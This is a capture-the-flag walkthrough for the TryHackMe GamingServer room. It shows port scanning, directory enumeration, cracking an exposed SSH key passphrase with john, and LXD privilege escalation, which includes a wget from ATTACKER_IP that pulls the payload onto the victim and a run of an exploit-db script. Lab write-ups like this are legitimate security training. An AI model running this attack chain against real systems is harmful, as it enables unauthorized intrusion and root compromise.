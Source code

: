 # GamingServer CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **GamingServer** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/gamingserver). 
---

Basic port scan 

```
nmap -sV -sC 10.10.44.124
```

![nmap](imgs/nmap.png "nmap")

Basic directory enumeration

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.44.124  
```

![gobuster](imgs/gobuster.png "gobuster")

found `/secret` and `/uploads`

content of `/secret`

![secret](imgs/secret.png "secret")

found RSA KEY

content of `/uploads`

![uploads](imgs/uploads.png "uploads")

found some possible password list

![passwdlist](imgs/passwdlist.png "passwdlist")


user might be john as suggested by comment on the site

![comm](imgs/comm.png "comm")

preparing to crack the passphrase with ssh2john

```
ssh2john secretKey > hash.txt
```

now cracking password

```
john --wordlist=dict.lst hash.txt
```

![johncrack](imgs/johncrack.png "johncrack")

found password: `letmein`




Now logging as john via ssh and first flag `user.txt`

```
ssh -i secretKey john@VICTIM_IP
```
![userflag](imgs/userflag.png "userflag")

using `linpeas.sh` to automated founding priv esc factor

```
scp -i secretKey ~/linpeas.sh john@10.10.44.124:/tmp/
```

![linpeas](imgs/linpeas.png "linpeas")

USING LXD PRIVILEGE ESCALATION

download `alpine lxd` from `https://github.com/saghul/lxd-alpine-builder/blob/master/alpine-v3.13-x86_64-20210218_0139.tar.gz`

start python server on attacker `sudo python3 -m http-server`


download file on victim
```
wget ATTACKER_IP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

create exploit file from `https://www.exploit-db.com/exploits/46978` on victim

```
nano exploit.sh
chmod +x exploit.sh
```

to gain root
```
./exploit.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
```
![root](imgs/root.png "root")

getting root flag

![rootflag](imgs/rootflag.png "rootflag")

# MACHINE PWNED
